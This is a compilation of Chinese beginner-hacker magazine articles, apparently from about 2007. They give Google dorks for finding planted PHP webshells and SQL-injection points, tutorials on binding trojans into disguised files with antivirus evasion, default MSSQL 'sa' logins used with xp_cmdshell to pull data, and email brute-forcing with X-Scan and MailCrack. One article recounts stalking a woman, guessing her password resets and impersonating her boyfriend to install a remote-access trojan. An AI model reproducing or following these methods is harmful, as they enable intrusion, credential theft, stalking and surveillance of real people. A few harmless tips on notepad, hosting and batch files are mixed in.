后来我核对了一下 FTP 服务器的 IP 地址，发现和本校网址是同一个 IP 地址。想了想终于弄明白了，原来网页不是调用 FTP 上的，至于源代码中出现的 FTP 账号和密码完全是老师的多余之举。至于前面的困惑，后来我在查了 FTP 服务器 IP 所在地时也终于弄明白了，原来 http://172.16.14.2 和 FTP 服务都在学校同一局域网内，当我们访问 http://172.16.14.2 时，http://172.16.14.2 就会去访问 FTP 服务器。只是 FTP 服务器拥有公网 IP，所以能在校外访问；而 http://172.16.14.2 因为和我们学生机在同一局域网，所以即使不连网也能访问。

## 记事本也能这么玩

郑恺

Windows 自带的记事本体积小，打开快速，用起来很方便，而下面的四种小技巧将会使我们操作起来更为快捷、灵活。不信的话就看看吧！

在系统盘的“Documents and Settings\用户名\SendTo”文件夹中，移入 notepad 的快捷方式（图 2）。这样，以后再遇到任何类型的文件，右键→发送到 notepad 就搞定了！

### 1. 打造自己的专用黑客日记

何谓黑客日记呢？当然是用来记录自己在黑客活动中的事件。比如：今天入侵了一台服务器，要记住它的 IP、用户名、密码等信息，明天又盗了个 QQ 号，后天突发灵感要记下什么等等。现在我们就来打造一个自动的日记本，称其为自动是因为不用每次都手工添加日期和时间，本本会自动添加。

在“开始”→“运行”栏中输入 `notepad` 启动记事本，然后在第一行写入 `.LOG`，再按一个回车，好了，自动日记本打造完成！你只需每次打开时记下自己要写的话，然后保存退出。当下次再打开时你的日记就会自动添加日期和时间了（图 1）。


### 2. 记事本打开

各位小菜在研究黑客工具、病毒木马时免不了要用到记事本来打开分析文件，最快捷的办法当然是在右键菜单中添加“记事本打开”了，如何添加呢，

### 3. 自动保存

记事本不能够像 Word 那样自动保存文件，使用起来确实不太方便。我们借助于一个叫 Autosave Your Edit 的软件帮助就可以轻松解决这个问题。安装后运行该软件，按界面提示将 notepad.exe 加入程序列表，设置自动保存热键（默认 `Ctrl+S`）并设置自动保存时间间隔（最小 10 秒，默认 300 秒）。完成后最小化软件，启动记事本输入文字后即可按设定自动保存。

### 4. 保存你的密码

使用记事本新建一个文档，输入以下内容：

```text
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

把文件名称改为显示桌面.scf。SCF 文件是“Windows 资源管理器命令”文件，也是一种可执行文件。显示桌面.scf 被点击后，相当于点击了快速启动栏中的显示桌面按钮。

> **显示某些特殊扩展名文件的办法是：**

1. 在“运行”栏输入 `REGEDIT` 启动注册表编辑器。
2. 找到 `[HKEY_CLASSES_ROOT\DocShortcut]`，删除右侧 `NeverShowExt`。
3. 找到 `[HKEY_CLASSES_ROOT\InternetShortcut]`，删除 `NeverShowExt`。
4. 找到 `[HKEY_CLASSES_ROOT\piffile]`，删除 `NeverShowExt`。
5. 找到 `[HKEY_CLASSES_ROOT\SHCmdFile]`，删除 `NeverShowExt`。
6. 找到 `[HKEY_CLASSES_ROOT\WSHScrap]`，删除 `NeverShowExt`。
7. 关闭注册表编辑器并重启电脑。

大家可以利用这种 SCF 文件来隐藏自己的密码等私人信息。使用记事本打开，空几行，下面就可以输入自己的用户名密码等信息（图 3），保存后显示桌面.scf 会正常运行，使所有窗口最小化。一般人难以察觉，使用起来方便且安全性较高。


## Google 助小菜之力


小菜们在杂志上看大虾们的文章，当有时看到疑惑的地方，大虾们都会在文章中提示说，到 Google 上搜索一下就可以了。真是无语啊，只可惜了我等天资愚笨的小菜，花了 N 个小时在 Google 上大海捞针也还是不会。不过，好在最近从黑 X 上偷了一份真经，现公布于天下。

### 一、PHP shell 之旅

小菜们的电脑里一定保存过很多 ASP shell，有点儿玩厌了吧，那就来弄些 PHP shell 吧！记得牛顿曾说过因为站在巨人的肩膀上才有伟大的成就，那我们就直接使用前辈的。直接在 Google 里使用以下语法来进行搜索。

```text
ext:php intitle:"c99shell"
ext:php intitle:"r57shell"
ext:php intitle:"PHP shell"
ext:php intitle:"phpshell"
```

上边使用的就是 ext 搜索语法，intitle 是 in title 简写，表示在标题里面找，"c99shell"、“r57shell” 等搜索所有包含关键词 c99shell、r57shell（这些都是网上常用的 PHP shell）的文件。因此，我们可以理解为，在标题中寻找有 c99shell、r57shell 等关键字的 PHP 文件。由于上述的 PHP shell 不需要密码，所以找到后可以直接利用。再来使用 intitle 语法在 Google 中进行搜索。

```text
intitle:"PHP Shell" "Enable StdErr" filetype:php
"PHPKonsole" "PHPShell" filetype:php -echo
intitle:r57shell uname
intitle:c99shell uname
intitle:* com_* phpshell
"phpshell by macker"
inurl:c99shell
inurl:r57shell
```

filetype 就是文件类型的意思，而“filetype:php”就表示搜索文件类型为 php 的文件。是不是感觉与 ext 有异曲同工之妙？“-echo”表示不搜索包含有 echo 的内容，“+uname”表示包含关键字 uname。至于“phpshell by macker”嘛，那就更简单了，这个 PHP shell 是 macker 写的，所以我们可以直接搜索他的名字了（图 1）。怎么样，PHP shell 找到了吧，多动动脑筋，还有其它的方法的。限于篇幅，就不过多介绍 PHP shell 的使用了。


### 二、疯狂注入点

我等菜鸟入侵网站通常有两种方式，分别是针对性（就是入侵特定的网站）的入侵和广泛性（就是大范围随机寻找有注入点的网站）的入侵。但不管这两种方式如何，使用啊D就可以轻松地搞定。如果是第一种方式，就使用 `site:http://target.com inurl:.asp|.php` 来搜索该网站的 asp 或 php 文件，而对于后一种方式，纯粹是漫无目的地寻找注入点，比如我们要寻找韩国网站，就可以使用 `ext:asp inurl:id=`...

## 隐风黑客


图3

前提要在 Google 的“高级搜索”里选择语言为韩文（图2）。

找一些 SQL 注入的，就使用：`lang:php query\(.*\$_(GET|POST|COOKIE|REQUEST|FILES).*\)`。再来找一些连接数据库的密码，可以使用：`lang:php mysql_connect\(("|')[a-zA-Z0-9_]+("|'),("|')[a-zA-Z0-9]+("|') -localhost -127.0.0.1 -192.168`。对于了解 PHP 常识的菜鸟应该知道这是没有进行过滤，小菜们就可以试试 ASP 的 SQL 挖掘了。

### 三、寻找0day

最近的 0day 可是爆出不少呀，连我也开始对 0day 感兴趣了。如果我们想搜索的话，可以使用 `intitle:"index of" (0day exploits|exploit|.c|.pl|.txt)` 这样的语法，搜索的结果很多吧（图3）。打开的都是目录，“index of”只在 Linux 系统下才有，Windows 里是看不到的，而括号里的即是要搜索的内容，“|”表示可选。最后再给大家一个专门搜索 0day 的网址 `http://0day.ugia.net`。

### 四、Google Code Hacking

不知小菜们看过 `http://www.google.com/codesearch` 没有，这是 Google 的代码搜索，它可以有效地让我们找到存在 Bug 的程序。比如我们想找一些跨站漏洞，就可以使用：`lang:php (ECHO|PRINT) .*\$_(GET|POST|COOKIE|REQUEST|FILES)` ...

### 五、黑软寻找

大虾之路一般也都是从工具黑客开始的，当然，小菜们问得最多的都要工具从哪儿下，那我就教各位一个方法。在 Google 里搜索：`intitle:软件名 inurl:down OR soft 运行环境`，这个可是通用哦。比如我们要寻找一些 DDOS 工具，就可以这样搜索：`intitle:傀儡僵尸厂 inurl:down OR soft 运行环境`（图4）。


图4

还记得在前几期杂志的 Google hack 里提到的摄像头吗，我们可以这样搜索：`intitle:"my webcamXP server!" "inurl:":8080"`。通过这个语法我居然看到一位老爷爷正在看电视呢，哈哈！现在，各位菜鸟已经把黑X的真经取到了吧，下次可能还会有哦。


阿楠

在今年第二期杂志中提供的 Office 绑马工具，感觉非常不错，可惜现在微软已经在 Windows 更新里修补了这些 Office 的漏洞，而且使用那个 Office 绑马工具生成的文件也已经被杀毒软件查杀了，真是可惜呀！我最近研究了一下文件捆绑的原理，找到了一种另类的绑马方式，于是编写了一个万能文件捆绑工具，各位可不要小看了这个工具，它可以绑定任意文件，什么木马啊、Word 文件啊、Mp3 音乐啊、RM 电影啊都可以，反正只要是 Windows 里有的文件类型，都可以绑定，而且最重要的是目前还是免杀的，真是小菜们“抓鸡”的必备工具。

### 一、捆绑及运行原理

多文件的捆绑构成思想非常简单，任何文件在计算机的存储都是二进制文件。我们在捆绑文件时，首先建立一个新的二进制文件，写入捆绑程序的数据和其文件长度，然后依次再写入需要捆绑的第一个文件的扩展名、文件长度和文件的数据；再写入需要捆绑的第二个文件类型、文件长度和文件的数据……这样就完成了文件的绑定。生成文件的图标可以从其它程序中提取，可以伪装成 doc 图标、rm 图标等等。最终文件被执行的时候，也就是将上面的方法思路倒过来使用。

首先捆绑程序被执行，然后读取第一个文件的扩展名和大小；如果是可执行 exe 文件，就在 Windows 临时文件夹生成 temp1.exe 文件，生成完毕后直接运行这个 temp1.exe。如果扩展名是非 exe 的文件，就在当前程序目录下生成和程序文件名一样、但扩展名是读取出文件的扩展名，生成完毕后直接利用 shell 打开这个文件。后面文件依次按照这个方法一一释放，不同的只是生成的 exe 文件名是 temp+第几个文件.exe。

### 二、实战演练

上述的原理，菜鸟们只需要了解一下就可以了，关键还是得会用。下面我就举例说明如何进行多文件的绑定和文件的释放过程。我们绑定一个计算器程序、一个记事本程序和一个 wma 音乐文件。首先运行捆绑程序 superbind.cxc；界面比较简单，如图1。依次添加计算器程序、记事本程序和甜蜜蜜.wma 文件。需要强调的是，我们在添加文件的时候，exe 类型文件可以任意添加多个，但是非 exe 文件只能添加一个，因为捆绑文件只需要伪装成一个文件。添加捆绑文件完毕后，可以选择从文件中提取图标，最后点击“给我绑”按钮来生成文件（图2）。


图1

最终释放完毕后，程序检查如果已经生成同文件的非 exe 文件，那么就删除自己。这样，在此目录下只会存在一个文件，并且文件类型已经不是 exe 文件了。


生成后的文件“好歌”是不是看起来和其它的 wma 文件一样啊（图3）。呵呵，毕竟大部分用户的电脑文件查看设置都是隐藏已知文件的扩展名。我们双击“好歌”，就会运行计算器、记事本，同时也会播放甜蜜蜜.wma 文件了，而且现在我的文档下面也只有“好歌.wma”了，而“好歌.exe”已经没了（图4），就算是用户怀疑，再次双击“好歌”也不会运行任何程序，“钓声隆……”的感觉真好！


### 三、预防方法

首先不要相信不熟悉的好友发来的任何文件，其次要在 Windows 里设置显示已知文件的扩展名，这样就可以发现文件的真面目了（图5）。


好了，就介绍到这儿，赶快动手制作一首“特别的歌”发给你心仪的 MM 吧！

> （本文所涉及到的万能捆绑器已收录到光盘中）

## 快速下载网站数据库不再愁

现在有许多网站使用了 jsp，而服务器使用了 tomcat，虽然安全性比 IIS 提高了很多，但是由于很多 jsp 系统直接将数据库连接的用户名和密码封装在一个类中，更改起来需要有一定的 java 基础，所以大多数管理员为了方便就只把数据库的用户名和密码改成了供应商提供的用户名和密码。这样的话，只要我们知道这个系统的用户名和密码，到网站上搜索同名的系统，就可以使用 MSSQL 查询分析器进行连接了。

而我碰到的用户名和密码基本上都是两种情况，一种是用户名为 sa，密码为空，另一种是用户名和密码都是软件公司名称或者与此产品相关的名称。

通过查询分析器连接上服务器后，就可以下载网站资源了。我不主张上传自己的后门或者木马，因为那会很快被发现的。我提供如下三种网站数据下载方案。

- 1. 利用 WinRAR 来下载。我们可以直接把想下载的文件复制到网站目录来下载，但是如果要下载多个文件，使用 WinRAR 就方便了。使用命令 `Rar a e:\myrar d:\film`，意思是把 d 盘 film 下的所有文件都压缩到 `e:\myrar.rar` 文件里。
- 2. 如果要下载 D 盘下的所有电影，使用上边的方法很不方便，这时我们可以建立 IIS 虚拟目录，前提条件是系统要安装了 IIS 组件。主要会用到 Inetpub\AdminScripts 下的脚本文件 mkwebdir.vbs 和 chaccess.vbs。  
  - 在第一个站点即“默认 Web 站点”建立虚拟目录 mydir，并执行：`cscript.exe mkwebdir.vbs -w "默认Web站点" -v "mydir" "e:\"`。  
  - 也可用：`xp_cmdshell 'cscript.exe X:\Inetpub\AdminScripts\mkwebdir.vbs -w "默认Web站点" -v "mydir" "e:\"'`（X: 表示操作系统目录）。  
  - 给虚拟目录 mydir 加上浏览属性：`cscript.exe chaccess.vbs -a w3svc/1/ROOT/mydir +browse`。需要注意的是，如果访问已建立好的虚拟目录时弹出输入密码对话框，说明目录或盘符权限受限，需要结合 IIS 匿名用户权限处理（图1）。
- 3. 利用 webshell 的打包功能进行下载。该方法适合下载较大文件……（后文以海阳木马为例，包含“文件夹打包/解压器”“HYTop.mdb”“unpack.vbs”等步骤说明，见图2、图3）。


## 利用 IEXPRESS 来做欺骗捆绑


安静的小E

前几天在 Whytt 看到一篇关于“普通文件的欺骗手法”的文章，提到使用 Windows 自带 IEXPRESS 捆绑文件的方法。下面详细介绍如何使用 Windows 自带的 IEXPRESS 来捆绑文件。

首先在“开始”-“运行”中输入 `IEXPRESS`，回车后打开 IEXPRESS（如图1）。


打开 IEXPRESS 后有两个选项：Create new Self Extraction Directive file（创建新提取方针文件）和 Open existing self extraction directive file（打开现有提取方针文件）。这里选择创建新提取方针文件，进入下一步（图2）。


接着有三种打包方式：Extract files and run an installation command、Extract files only、Create compressed files only（ActiveX installs）。这里选择“提取文件和运行设置命令”以实现自解压（图3）。


这里随便命名，一般命名为正常软件名称，进入下一步（图4）。


No prompt（没有提示）、Prompt user with（提示使用），这里选择“没有提示”，进入下一步（图5）。

Do not display a license（不显示许可）与 Display a license（显示许可），默认不显示许可，进入下一步到捆绑文件处（图6）。点击“Add”添加要捆绑的两个程序：`normal.exe`（正常程序）和 `muma.exe`（木马程序）。

`muma.exe` 可能被杀毒软件查杀，处理后继续（图7）。


在下拉框中选择程序执行顺序，示例为先启动 `normal.exe`，关闭后再启动 `muma.exe`，然后继续下一步（图8）。

## 傻瓜黑客


Default、Hidden、Minimized、Maximized，分别表示缺省、隐藏、最小化和最大化，选择“Hidden”隐藏，进入下一步设置，如图9。


这个大家都应该明白，选择“No message”不提示消息，进入下一步，如图10。

这里是设隐藏解压到哪里，点击 Browse 输出的路径，“Hide File Extracting Progress Animation from User”的意思是隐藏用户文件提取动作，一定要打上勾，然后点击下一步，如图11。

“No restart, always restart, only restart if needed”分别为不重启、总是重启、按需重启，我选择的是不重启。当然这里需要我们自己定义，如果你的木马（如一些后门）需要重启后才能生效的话，那么你就选择“Always restart”就可以了，设置完毕后进入下一步，如图12。


直接点击下一步输出就可以了，在图10输入的路径下可以找到生成的捆绑程序 cracker.exe，打开后会启动正常程序，关闭正常程序后则会启动我们的木马程序。

为了我们的捆绑程序更加完美，可以使用 Restorator 改变程序图标，打开并使用 Restorator，然后载入捆绑程序，展开“图标”，如图13。

点击“资源”→“导入”→“导入到”，选取 .ico 后缀图标然后保存就可以了。图14是我改变图标后的程序。


按理说文章到此就结束了，但是右键程序，你会发现这个压缩程序同 WinRAR 一样有个“解压到文件”，解压后的文件夹里赫然显示着我们捆绑的两个文件，如图15。

这样的话我们的木马就不太安全了，解决的方法就是给程序加壳。可以随便找个压缩壳，我使用的是 NsPack V1.4。加壳后再查看捆绑程序，右键已经没有“解压到文件”的信息了。


> （本文所涉及到的 Restorator 和 NsPack V1.4 已收录到光盘中）

## 菜鸟也学社会工程学

我一哥们最近看上了一位 MM，哥们是交给了我两个任务：一、得到她的 QQ 号；二、让 MM 的电脑成为他的肉鸡。这个任务可实在是太艰巨了，说实话我根本就没有把握可以做到，但是为朋友两肋插刀，豁出去了。随后哥们将那 MM 的 QQ 号发给了我。

我马上加上她的 QQ，可惜她并不在线，不好的兆头，这可加大了我完成任务的难度啊（如果在线的话，碰到一个傻 MM 直接给她发个木马过去，可能任务就一下子完成了）。

首先来看她 QQ 上的个人资料，发现了一个相册地址（图1），进去看了一下，果然是一美女啊，怪不到我那哥们这么着迷。


我决定还是从她的个人资料上来下手，一点点地查找，应该能找出一些有用的东西。首先在百度上搜索她的 QQ 号，只有二条符合的信息，一条是关于资料中网站：http://www.hi****.net，这是一个有很多帅哥、美女聚集的地方。我在网站上注册了一个用户，一番搜索后，终于查到了 MM 的用户名：***（跟她个人资料上的名字是一样的，所以我就确定这是她的 ID，图2）。

我试了几个简单的密码都不行，看来我要转变思路了。利用动网的忘记密码功能，可能会有新发现（图3）。


## 傻瓜黑客

提示要输入生日，这人海茫茫我怎么知道她的生日呢？再回过头去看看她 QQ 上的个人资料，年龄：20，这不正好是 87 年吗。那几月几号怎么确定呢？无意中发现 `http://***/***/jing0509/`，看到 jing0509 了吗，各位应该猜到是生日了吧！成败在此一举，在答案处输入 19870509，哈哈，果然是这个生日（图4）。


现在可不能修改密码，来尝试使用这个生日看能不能进去，OK 真的进去了。在联系资料这一行有个 EMAIL 地址，再使用这个密码也成功地登录了她的 EMAIL（图5）。女孩子在这方面的安全性就是差，密码使用的都是一样的，我渐渐看到了胜利的曙光。


尝试使用这个密码来登录她的 QQ，登录失败。仍然去 QQ 密码找回看看（图6）。问题是 1=1，当试到答案 2=2 时提示成功（图7）。


到刚才的邮箱中查找，发现没有收到修改密码的邮件，等了一会儿也不见影子。我怀疑不是使用的这个邮箱，想到前面也可搜索到的项目信息，另一个信息是来自另外一个论坛。我使用同样的用户名密码居然也登录进去了，查看资料发现这次使用的邮箱变了（图8）。

使用生日和一些常用的密码都无法进入这个邮箱，难道入侵的脚步就要在这里停下吗？当然不会，还是去百度看看有什么收获，搜索邮箱的用户名后发现了一条有用的信息——一个出租房屋的信息，并且得到了详细地址（图9）。有了这么重要的信息，可以从 MM 身上想办法，忽悠开始了（石头：以下聊天记录未经修改）。


> 聊天记录（节选）：
- `609060987 15:21:41` 不了不了，老公真的是你啊，你怎么被盗的啊……
- `Dispassion 15:22:25` 不知道，把你的 QQ 借我用用，我要告诉上面的朋友……
- `609060987 15:22:54` 你不会知道我的密码吗？
- `Dispassion 15:23:27` 恩，好的！

> 聊天记录（节选）：
- `Dispassion 15:19:05` jingjing，我的 QQ 被人偷了……
- `609060987 15:19:42` 你是谁啊
- `Dispassion 15:19:41` 晕，你男朋友
- `609060987 15:20:20` 我怎么相信你呢？
- `Dispassion 15:21:00` 晕了！你住在华景公寓×栋×单元……

把这个 MM 牌肉鸡发给了我那哥们，许久他发来一句话：窥视 MM 的感觉太好了！最后在我极力的反对下，才让他把灰鸽子的服务端给删除了。毕竟这种事本不光彩。这是一次纯社会工程学的入侵（除了最后的不忍），希望大家看了后能有耳目一新的感觉。

## 爱情测试背后的阴谋

这天正在聊 QQ，一好友给我发来了一条消息，给了我一个爱情测试的链接地址。平时我并不相信这些东西，今天实在是很无聊，在做了 N 久的思想斗争后终于勇敢地点了进去（图1）。网页做得很简单，我照提示输入名字并进入下一步，结果提示被某人开了一个玩笑（图2）。后来我尝试输入自己的名字，访问 Result 页面后进入下一个页面（图3）。


看着页面上方的说明文字，非常像那种 QQ 钓鱼程序中的宣传文字。冒着被扁的风险我把链接发到了 QQ 群里。群里在线的人顿时分成两派，一些好友直接点击进去了，而另外一些好友却认为是病毒或钓鱼网站。我们顺着页面在点击后发生的情况分析，部分人是没啥心理防御型，部分人则是超强怕他人型（图5）。


## 使用一个独立空间来打造多个独立网站

阿斯匹林

### 一、需求分析

我们都知道，目前虚拟主机、虚拟空间通常有 200M、500M、1G 等容量。对于个人站点来说往往用不满，而费用对学生用户并不低。很多空间还允许绑定多个域名，这就提供了在一个空间中部署多个网站的可能。这里讨论的是支持 ASP/PHP/JSP 等动态脚本的动态网页空间，通过脚本对访问域名进行识别并分流。

### 二、可行性分析

技术可行性：在空间中建立不同文件夹保存各网站内容，根据访问域名跳转到对应目录；常见脚本语言均可读取 HTTP 头并判断域名。

空间可行性：方案充分利用空间资源；绑定域名数量受空间商限制，但通常可满足小规模多站点共享。

经济可行性：多人合用空间并各自绑定域名可显著降低个人成本。

### 三、程序实现

预备工作：将两个域名绑定到同一空间，在空间下建立默认首页文件和两个站点目录（如 zben、kacci），分别放置各站内容。


图1

其中 default.asp 为默认首页文件，zben 文件夹保存 www.zben.cn 站点，kacci 文件夹保存 www.kacci.cn 站点。下面在 default.asp 中加入代码，实现多网站共存。

```asp
<%
HttpHead = LCase(Request.ServerVariables("SERVER_NAME"))
If InStr(HttpHead,"www.zben.cn")<>0 Then
  Response.Redirect("/zben/")
  Response.End()
ElseIf InStr(HttpHead,"www.kacci.cn")<>0 Then
  Response.Redirect("/kacci/")
  Response.End()
Else
  Response.Write("哪来的怪物")
  Response.End()
End If
%>
```


图2


图3

```asp
Response.Redirect("/kacci/")
Response.End()
...
Response.Write("哪来的怪物")
Response.End()
```

这个是 ASP 实现的代码，其他语言思路类似。

### 四、测试

在两个网站目录下分别放置不同首页文件，对 www.zben.cn 和 www.kacci.cn 分别访问。输入域名后会自动跳转到对应子目录，实现多个站点互不干扰、独立访问。

### 五、存在问题

该方案并非完美：访问路径会带子目录；若各站目录结构差异大，管理不便；共享空间在流量过大时可能受限；安全性方面若某站被入侵可能波及同空间其他站点。总体上技术门槛不高，但实用价值较高。

## 最新体验：Vista 操作系统绝命输入法漏洞

黑侠（Black Mask）

2007 年微软正式发布了 Vista 操作系统，该操作系统不仅外观十分漂亮，而且号称是史上最安全的操作系统。但就在发布不久，各式各样的安全漏洞也接踵而来了。今天我就来讲一讲 Vista 是如何重现当年经典的 Windows 2000 输入法漏洞的。我们可以利用该漏洞在无管理员密码的情况下登录系统，获得系统的 SYSTEM 权限，从而完全控制对方的电脑。

### 1. Google 输入法漏洞

首先需要安装一个 Google 在 4.4 号前发布的拼音输入法 1.0 版（4.4 后发布的输入法已经修复了漏洞），双击 GooglePinyinInstaller.exe 开始安装，如图1。


图1

然后点击“下一步”，直至安装，把“将谷歌拼音输入法设为默认输入法”前打勾，最后再点完成，如图2。我们锁定计算机，鼠标在任一空白处单击右键，就会自动弹出 Google 输入法，将鼠标移动到 Google 输入法的小按钮上右击选择“帮助”，如图3。

呵呵，马上弹出了 IE 并打开了 Google 拼音帮助的网站，此时我们就可以随便上网浏览网页或下载，但屏蔽很多功能，比如右键不能使用等等一些，大家自己研究吧。好了，打开百度看看，如图4。


图2

遗憾的是，比如我们在 IE 输入 c:\windows 回车，并不像以前 Windows 2000 输入法漏洞那样，马上就会弹出 Windows 的目录，而是在你登录到系统后，才会看到我们刚才打开的 Windows 目录。


图3


图4

### 2. 极点中文输入法漏洞

双击安装极点中文输入法，安装成功，再将计算机锁定，鼠标在任一空白处单击右键，就会自动弹出极点中文输入法，右击“五笔字型”选择“使用说明”，如图5。


图5

马上就可以调用 WORD 了哦，单击 WORD 的文件里的“打开”，就可以浏览计算机里的所有硬盘了，如图6。


再点击 WORD 的“帮助”，选择“获取有关使用 WORD 的最新新闻”，如图7。啊啊，马上就把 IE 调出来了，打开个 Google 看看，如图8。虽然鼠标的右击不能使用，但是打开网站还是没有问题的。

这两种输入法的漏洞，只有在系统锁定的情况下才存在，系统重启时或通过 3389 连接时，并没有出现输入漏洞。看来微软公司花上亿美元开发的 Vista 操作系统，虽然并不像传说中的……但是从功能上和界面上还是非常让人满意的。

## 手把手教你全自动刷 163 邮箱积分

yf.sunny

最近发现了一个 163 邮箱的小 BUG，就是对邀请好友的次数没有限制。每次邀请还会给自己的账户加 2 点的积分。既然如此，那我们为什么不利用这点来刷积分呢？然后再使用积分来开通自己的 163 网盘？

首先来看看邀请好友，进入 mail.163.com，风格选择极速 3.0Beta，登录自己的账号。yf.sunny 是我刚申请的一个号来做实验（图1）。点左侧的邀请朋友（图2），需要填邮箱和署名，随便写就可以了（图3），然后按“发送邀请函”，显示“恭喜你，发送成功”，这就得到 2 点积分。

现在请出我们的主角“腾讯 TT 浏览器”（可以自动填写表单的浏览器都可以），回到图3所示的填写界面，将表单填好后选择工具—自动填写表单—保存表单，以后按 F9 就可以代替填这个表单了。

你现在需要做的就是按 F9，再按两下鼠标就可以轻松得到积分。什么？还嫌累？唉，只好把终极绝招告诉你们了。

下面有请按键精灵出场，按键精灵可以代替鼠标和键盘去做一些简单的事情，可以把一系列操作录制下来，开始、结束录制的快捷键是 Scroll Lock（图4）。按开始以后就按刚才刷分的操作再做一遍，然后按 Scroll Lock 结束，最后保存录制内容（图5）。

在左侧选择脚本循环，接下来将脚本循环设为“循环到按中止键为止”，启动和中止按键可以自己设置，设置完毕后按保存退出。选择自己刚才的脚本，按右键，选择“制作小精灵”，将小精灵拖动到任意一个文件夹。接下来运行小精灵，将图3的页面放在最顶层，然后按开始键。一会儿你就会看到你的积分像飞一样地向上长了。

（本文所涉及到的按键精灵已收录到光盘中）


## 密码邮箱混战我来

金黄色

### 一、利用弱口令破解邮箱

大家都知道，邮箱登录时都有登录次数限制，因此暴力破解邮箱“不可能”了，但是我们可以用一个密码去登录多个邮箱，如果密码正确就能进去了。首先需要准备的工具有 X-Scan 和易优字典。开始我们的破解邮箱之旅！首先打开易优字典（这是一个不错的字典生成工具，生成字典速度特别快），如图1。选择“基本字符”，然后在所有的数字前面打勾（选择的这些数字是用来做用户名之用，大家也可以选择别的）。点上边的“生成字典”，选择保存路径和密码位数（注意：生成的字典要改成 .dic 格式），如图2。点击下边的“生成字典”就会生成我们需要的字典文件了。然后新建一个文本文件，把它重命名为“密码.dic”，注意格式一定要是 .dic 的，然后打开在里面写入 123456，这个是密码文件，如图3。字典已经制作完毕，现在打开 X-Scan，如图4。在扫描之前我们还要来看看 163 邮件服务器的 IP，打开 CMD 命令提示符，输入 ping pop.163.com，得到 IP 地址为 202.108.5.100。现在回到 X-Scan，点“设置”-“扫描参数”来到扫描参数设置界面，在指定 IP 范围内填入刚才 ping 到的 202.108.5.100，如图5。在右侧点击“全局设置”前的加号，选择“扫描模块”，只在 POP3 前面打勾，如图6。然后点击“插件设置”前面的加号，选择“字典文件设置”，在右边的窗口内选择“POP3 用户名字典”，点击右键选择编辑，选择我们刚才生成的账号文件，如图7。用同样的方法添加上密码文件，如图8。然后点确定，就回到了 X-Scan 的主界面了。点击“文件”，选择“开始扫描”，这样 X-Scan 就开始扫描密码是 123456 的邮箱了。不一会儿就扫完了，得到结果如图9。由于我选择的账号文件只有 4 位和 5 位的数字，所以只破解出一个邮箱。大家可以生成别的账号字典，这样扫描的账号就多了，当然能扫描出来的邮箱也就多了。另外大家可以把密码修改成你认为别人经常使用的密码，这样就能破解出更多的邮箱了。


### 二、破解指定邮箱的密码

前几天在网上搜到一个破解邮箱的工具 MailCrack，试了一下还可以，给大家推荐一下。MailCrack 的界面如图10所示，很容易看懂操作。在服务器处选择 smtp.163.com，在邮箱账号名处填上刚才扫到的那个邮箱的账号 1249。点“字典设置”，选择字典。我就选择一个简单的字典吧，这些数都是我随便填的，最后一个是正确的密码，如图11。注意字典一定要是 .txt 格式的哦！选择好字典然后点开始扫描，它就开始试探了，如图12。当试探到最后一个密码时，提示找到正确密码为 123456，如图13。我们用得到的密码去登录下邮箱，里面还有不少信息呢，如图14。


上边为大家介绍了两种简单的破解邮箱的方法，针对第一种，大家可以生成大一些的账号文件，多扫描一些账号，收获就会更多了；针对第二种，只要你有足够的时间而且你的密码字典足够强壮，就能得到正确的密码。最后提醒大家自己的邮箱密码一定要设置得强壮点，本人的邮箱就是被人破解了密码，然后删除了所有的邮件！唉，痛不欲生啊！

（本文所涉及到的 X-Scan、易优字典生成器、MailCrack 已收录到光盘中）

## 照样把玩杀毒软件

西邮猎手（王聪）

对于一些配置较低的电脑，在安装上杀毒软件后，开机后要好几分钟才能进入桌面。其实我们平时可以把杀毒软件关掉，等上网或者连接外置存储设备时再将其打开，这样既可以节省系统资源，又能让系统免遭病毒的侵害。

说起来好像很容易，但杀毒软件并不是只有一个程序，它还要启动好多服务。如果我们每次都手动来开启或停止这些服务，那就会浪费很多时间。但如果我们知道它每次启动了哪些服务和程序，就可以制作一个批处理，只要启动的时候双击，停止时还是双击就行了，简单吧！


首先在“运行”栏输入 msconfig 打开“系统配置实用程序”，切换至“服务”选项，并且勾上下面的“隐藏所有 Microsoft 服务”，找到前面打了勾的诺顿的服务（可以对照服务的描述），并将它们的名称记下来（图1）。

接着切换至“启动”选项，找到前面打了勾的诺顿的启动项，并将它们的名称和路径记下来（图2）；然后在“运行”中输入 services.msc 打开服务，找到刚才记录下的服务，单击右键选择“属性”，在“启动类型”中选择“手动”，最后点确定（图3）。

好了，下次电脑启动时就不会自动启动杀毒软件了。但要注意在“启动类型”中千万不要选择“已禁止”，否则做成批处理后也不能启动该服务了。

下面就开始编写我们的批处理文件了，打开记事本，结合刚才记录下的服务名称和程序路径，在里面输入如下内容（注意：如果服务名称或程序路径中有空格，一定要用双引号把它们引起来，否则只会解析空格前面的内容）。

```bat
net start "Symantec Antivirus Definition Watcher"
net start "Symantec Event Manager"
net start "Symantec Settings Manager"
"C:\Program Files\Symantec AntiVirus\VPtray.exe"
```

保存为“启动诺顿.bat”，然后再新打开记事本，输入：

```bat
net stop "Symantec Antivirus Definition Watcher"
net stop "Symantec Event Manager"
net stop "Symantec Settings Manager"
taskkill /im VPTray.exe
```

保存为“停止诺顿.bat”。批处理就做好了，当你要启动诺顿时，就双击“启动诺顿.bat”；当你要停止诺顿时，就双击“停止诺顿.bat”。本文我是以诺顿为例向大家介绍如何制作这两个批处理文件。若使用其他杀毒软件，也按同样思路即可，但要注意 `net start` / `net stop` 和 `taskkill /im` 后面的内容要对应。

## 你会用网易邮箱盗 Q 号吗？

我们这些接触网络晚的小菜鸟为了找一个好的 QQ 号而苦恼，本文介绍一个简单的方法。利用“网易程序合集”中的“网易社区弱口令 ID 探测者”提取在线 ID、扫描弱口令并登录邮箱，进而导出有价值的信息。

首先运行“网易社区弱口令ID探测者.exe”，在“ID分类”中选择想扫描的 ID 段，点“提取”获取在线 ID，再点“扫描”开始弱口令扫描。扫描结果会自动保存在 `IDList.txt` 中（图1、图2）。


用户列表和弱口令用户列表中有鼠标右键菜单（导入、导出等），可进一步处理 ID 资源。`password.txt` 文件为密码列表，可自行添加密码；其中“%”含义为以 ID 自身作为密码，列表最后请保留一空行（图5）。

我们用扫描出来的弱口令进行登录（图6），常可看到多封邮件，其中可能包含 QQ 号、密码等信息。可用批量导出把 QQ 号保存到 txt 文件中（图7）。若网易 ID 是数字，也可能与 QQ 相似，可尝试登录验证。


（本文所涉及到的网易程序合集已收录到光盘中）

## 菜鸟揪马记

zyh5515555[H.U.S.O]

